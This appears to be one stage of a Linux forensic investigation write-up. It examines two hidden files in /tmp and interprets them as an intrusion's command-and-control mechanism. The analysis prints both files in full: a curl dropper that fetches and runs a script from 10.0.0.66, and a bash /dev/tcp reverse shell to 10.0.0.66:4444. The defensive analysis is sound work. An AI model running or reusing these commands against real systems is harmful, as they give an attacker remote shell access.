

# Stage 06: First-Stage Payload & Reverse-Shell Analysis (`.syncd`, `.x`)

## 1. Investigation Objective
Return to `/tmp` with hidden files visible (`ls -la`) to inspect dot-prefixed artifacts flagged during initial anomaly triage.

## 2. Evidence Examined
* `/tmp/.syncd`
* `/tmp/.x`

## 3. Linux Commands Used
```bash
cd /tmp
ls -la
cat .syncd
cat .x
```

## 4. What I Observed
Hidden file listing revealed two scripts inside `/tmp`:
* **`.syncd` (Dropper script):**
  ```bash
  #!/bin/bash
  curl http://10.0.0.66/payload.sh -o /tmp/.x && chmod +x /tmp/.x && /tmp/.x
  ```
* **`.x` (Interactive reverse-shell script):**
  ```bash
  #!/bin/bash
  bash -i >& /dev/tcp/10.0.0.66/4444 0>&1
  ```

## 5. How I Interpreted the Evidence
The attacker used dot-prefixed filenames in `/tmp` to hide a two-step remote access mechanism: `.syncd` retrieved a secondary script from `10.0.0.66`, saved it as `/tmp/.x`, marked it executable, and launched an interactive Bash reverse shell to `10.0.0.66` on TCP port `4444`.

## 6. Screenshot of the Actual Investigation


## 7. What the Finding Established
Identified the unprivileged command-and-control (C2) mechanism (`10.0.0.66:4444`) used to establish interactive shell access under `j.morgan`.

## 8. Evidence Correlation

The scripts provide two related but distinct observations: `.syncd` contains a command to download and launch `/tmp/.x`, while `.x` contains a Bash reverse-shell command to `10.0.0.66:4444`. This links the two files by their contents. The available screenshot and file contents do not independently prove that the download, launch, or network connection completed.
